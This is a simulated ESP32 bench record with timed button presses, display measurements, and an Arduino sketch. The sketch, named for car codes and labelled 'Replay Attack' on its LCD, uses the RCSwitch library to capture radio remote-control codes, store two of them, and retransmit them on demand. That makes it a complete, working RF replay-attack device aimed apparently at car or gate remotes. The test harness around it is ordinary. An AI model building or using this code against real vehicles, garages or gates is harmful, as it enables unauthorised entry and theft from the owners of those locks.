
Bench run of a sketch on a simulated ESP32. Parts: 16×2 character LCD. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 14 (CLEAR_BTN), GPIO 25 (SIGNAL2_BTN), GPIO 32 (CAPTURE_BTN), GPIO 33 (SIGNAL1_BTN) HIGH. What the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: GPIO 14 (CLEAR_BTN) pulled LOW for 0.15 s
At 1.9 s:

3.6 s: GPIO 25 (SIGNAL2_BTN) pulled LOW for 0.15 s
At 4.5 s:

5.2 s: GPIO 32 (CAPTURE_BTN) pulled LOW for 0.15 s
At 5.6 s:

9.8 s: GPIO 14 (CLEAR_BTN) pulled LOW for 1 s
At 11.6 s:

12.3 s: GPIO 25 (SIGNAL2_BTN) pulled LOW for 1 s
At 13.4 s:

Timing chart, 0 to 15.3 s (numbered marks = the images above; inputs shaded):


The sketch:

sketch_apr16c_STAGE1_CARCODE.ino
```cpp
#include <RCSwitch.h>
#include <Wire.h>
#include <LiquidCrystal_I2C.h>

#define RX_PIN 27
#define TX_PIN 26

#define CAPTURE_BTN 32
#define SIGNAL1_BTN 33
#define SIGNAL2_BTN 25
#define CLEAR_BTN 14

LiquidCrystal_I2C lcd(0x27, 16, 2);
RCSwitch rc;

unsigned long lastCapturedValue = 0;
unsigned int lastCapturedBitlen = 0;
unsigned int lastCapturedProtocol = 0;

unsigned long signal1Value = 0;
unsigned int signal1Bitlen = 0;
unsigned int signal1Protocol = 0;

unsigned long signal2Value = 0;
unsigned int signal2Bitlen = 0;
unsigned int signal2Protocol = 0;

bool lastCap = HIGH;
bool lastS1 = HIGH;
bool lastS2 = HIGH;
bool lastClear = HIGH;

void showMessage(String line1, String line2) {
  lcd.clear();
  lcd.setCursor(0, 0);
  lcd.print(line1);
  lcd.setCursor(0, 1);
  lcd.print(line2);
}

void setup() {
  Serial.begin(115200);

  pinMode(CAPTURE_BTN, INPUT_PULLUP);
  pinMode(SIGNAL1_BTN, INPUT_PULLUP);
  pinMode(SIGNAL2_BTN, INPUT_PULLUP);
  pinMode(CLEAR_BTN, INPUT_PULLUP);

  rc.enableReceive(digitalPinToInterrupt(RX_PIN));
  rc.enableTransmit(TX_PIN);
  rc.setPulseLength(350);
  rc.setRepeatTransmit(10);

  lcd.init();
  lcd.backlight();

  showMessage("Replay Attack", "Ready");
  Serial.println("REPLAY ATTACK READY");
}

void loop() {
  bool capNow = digitalRead(CAPTURE_BTN);
  bool s1Now = digitalRead(SIGNAL1_BTN);
  bool s2Now = digitalRead(SIGNAL2_BTN);
  bool clearNow = digitalRead(CLEAR_BTN);

  if (capNow == LOW && lastCap == HIGH) {
    showMessage("Capturing...", "Waiting signal");
    Serial.println("CAPTURE pressed");

    unsigned long start = millis();
    bool captured = false;

    while (millis() - start < 5000) {
      if (rc.available()) {
        unsigned long v = rc.getReceivedValue();

        if (v != 0) {
          lastCapturedValue = v;
          lastCapturedBitlen = rc.getReceivedBitlength();
          lastCapturedProtocol = rc.getReceivedProtocol();

          Serial.print("Captured value: ");
          Serial.println(lastCapturedValue);
          Serial.print("Bit length: ");
          Serial.println(lastCapturedBitlen);
          Serial.print("Protocol: ");
          Serial.println(lastCapturedProtocol);

          showMessage("Signal Captured", "Choose S1 or S2");
          captured = true;
        } else {
          Serial.println("Invalid signal (0)");
          showMessage("Invalid Signal", "Try again");
        }

        rc.resetAvailable();
        break;
      }
    }

    if (!captured) {
      showMessage("No Signal", "Press Capture");
      Serial.println("No signal captured");
    }
  }

  if (s1Now == LOW && lastS1 == HIGH) {
    if (signal1Value == 0) {
      if (lastCapturedValue == 0) {
        showMessage("No Capture Yet", "Press Capture");
        Serial.println("No captured signal to save in S1");
      } else {
        signal1Value = lastCapturedValue;
        signal1Bitlen = lastCapturedBitlen;
        signal1Protocol = lastCapturedProtocol;

        showMessage("Saved as S1", "Ready");
        Serial.println("Saved captured signal as S1");
      }
    } else {
      rc.setProtocol(signal1Protocol);
      rc.send(signal1Value, signal1Bitlen);

      showMessage("Replaying...", "Signal 1");
      Serial.println("Replayed S1");
      delay(800);
      showMessage("Replay Attack", "Ready");
    }
  }

  if (s2Now == LOW && lastS2 == HIGH) {
    if (signal2Value == 0) {
      if (lastCapturedValue == 0) {
        showMessage("No Capture Yet", "Press Capture");
        Serial.println("No captured signal to save in S2");
      } else {
        signal2Value = lastCapturedValue;
        signal2Bitlen = lastCapturedBitlen;
        signal2Protocol = lastCapturedProtocol;

        showMessage("Saved as S2", "Ready");
        Serial.println("Saved captured signal as S2");
      }
    } else {
      rc.setProtocol(signal2Protocol);
      rc.send(signal2Value, signal2Bitlen);

      showMessage("Replaying...", "Signal 2");
      Serial.println("Replayed S2");
      delay(800);
      showMessage("Replay Attack", "Ready");
    }
  }

  if (clearNow == LOW && lastClear == HIGH) {
    lastCapturedValue = 0;
    lastCapturedBitlen = 0;
    lastCapturedProtocol = 0;

    signal1Value = 0;
    signal1Bitlen = 0;
    signal1Protocol = 0;

    signal2Value = 0;
    signal2Bitlen = 0;
    signal2Protocol = 0;

    showMessage("All Cleared", "Ready");
    Serial.println("All stored signals cleared");
    delay(800);
    showMessage("Replay Attack", "Ready");
  }

  lastCap = capNow;
  lastS1 = s1Now;
  lastS2 = s2Now;
  lastClear = clearNow;

  delay(10);
}
```

Measured:
- after the input at 1.3 s, the display: changes at once (image 1)
- after the input at 3.6 s, the display: changes at once (image 2)
- after the input at 5.2 s, the display: changes at once (image 3)
- after the input at 9.8 s, the display: first differs from a run without the input after 0.49 s (image 4 shows a later state)
- after the input at 12.3 s, the display: changes at once (image 5)
